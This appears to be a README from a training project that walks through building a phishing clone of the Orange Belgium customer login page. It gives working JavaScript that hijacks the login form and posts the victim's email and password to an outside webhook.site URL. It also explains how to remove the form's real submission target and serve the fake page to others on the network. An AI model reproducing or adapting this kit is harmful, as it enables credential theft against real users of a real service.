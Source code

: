 # Simulate the Orange Customer Connexion Webpage

## 1) Get the source code of the page

- Go to : https://www.orange.be/fr/e-services/login
- ctrl + s or right click and "save as"

## 2) Get a webhook

- Go to : webhook.site
- Copy the url (you gonna need it soon)

## 3) Write a script to return info to webhook

- open a new JS file here ´data.JS´
- write this script (and use the url of the webhook)

>  let myForm = document.getElementById('sso-form');  // "let name" create a variable and then we put in it the content of an id. Here id of the form
>  let formEmail = document.getElementById('sso-email'); // id of the mail input
>  let formPassword = document.getElementById('sso-password');// id of the password input
>  
>  myForm.addEventListener('submit', (e) => { // we wait for specific moment to run, here it's the submit button
>    e.preventDefault();
>   fetch('https://webhook.site/ccbd4eb0-f4b0-48c0-96da-4a96ab73004c', { //when it's in action the script fetch the data and return it to the web hook url
>       method: "POST",
>        body: JSON.stringify({ //this line transform the data we collect (who's in json format) and transform it into strings
>            username: formEmail.value, //here we say to stock those string into the variable we have creat on the top
>            password: formPassword.value
>        })
>    }).then(window.location.href = "https://www.youtube.com/watch?v=dQw4w9WgXcQ&ab_channel=RickAstley"); // after all of this the user is redirected to this URL
>  })
>
> ![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/data.js.png)


## 4) Make some change on the HTML 

- remove this part from sso-form :
>  action="https://sso.orange.be/auth/sm/login.fcc" data-soho-check="/e-services/userCheck/b2b" data-soho-target="https://e-services.business.orange.be/fr/espace-client-soho/?fromB2C=true">

- On the bottom of the form put your script link

 ![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/callScript.png)


 ![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/CallScriptPosition.png)



-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

**Normaly it should work localy**

-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------


## Make a local server to host it

- Dont forget to rename your webpage into index.html
- on your folder open the terminal and write this command to launch a python server `py -m http.server` (the default port is 8000)
- You can acces your webpage with localhost:8000
- Other person on the same network can have acces to id with yourIP:8000


**Eazy Peazy Lemon Squezzy**
**RESULT**

On fake Orange
![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/orangeCO.png)


On webhook
![](https://github.com/Mahgnislaw/BecodeProjects/blob/main/2_The%20hill/Phishing/Phising%20Site/Orange/img/webhookResult.png)


